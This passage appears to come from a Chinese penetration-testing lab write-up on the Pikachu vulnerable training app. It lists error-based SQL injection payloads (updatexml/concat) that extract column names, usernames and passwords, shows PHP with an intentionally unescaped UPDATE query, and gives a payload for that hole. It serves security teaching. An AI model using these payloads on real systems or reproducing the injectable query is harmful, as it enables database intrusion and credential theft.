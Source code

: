 老规矩,改 limit 后的数字

字段名 `1' or updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users'limit 0,1)),0) or'')#`

![image](../../../img/渗透/实验/pikachu/47.png)

老规矩,改 limit 后的数字

数据 `1' or updatexml(1,concat(0x7e,(select username from users limit 0,1)),0) or'')#`

![image](../../../img/渗透/实验/pikachu/48.png)

数据 `1' or updatexml(1,concat(0x7e,(select password from users limit 0,1)),0) or'')#`

![image](../../../img/渗透/实验/pikachu/49.png)

下面测试 update

**服务器端核心代码**
```php
if(isset($_POST['submit'])){
    if($_POST['sex']!=null && $_POST['phonenum']!=null && $_POST['add']!=null && $_POST['email']!=null){
//        $getdata=escape($link, $_POST);

        //未转义,形成注入,sql操作类型为update
        $getdata=$_POST;
        $query="update member set sex='{$getdata['sex']}',phonenum='{$getdata['phonenum']}',address='{$getdata['add']}',email='{$getdata['email']}' where username='{$_SESSION['sqli']['username']}'";
        $result=execute($link, $query);
        if(mysqli_affected_rows($link)==1 || mysqli_affected_rows($link)==0){
            header("location:sqli_mem.php");
        }else {
            $html1.='修改失败，请重试';

        }
    }
}
```

**漏洞利用**

版本 `1'or updatexml(2,concat(0x7e,(version())),0) or'' where username = <注意！！！这里是你的用户名>;#`

例如我的: `1'or updatexml(2,concat(0x7e,(version())),0) or'' where username = 123;#`

![image](../../../img/渗透/实验/pikachu/50.png)
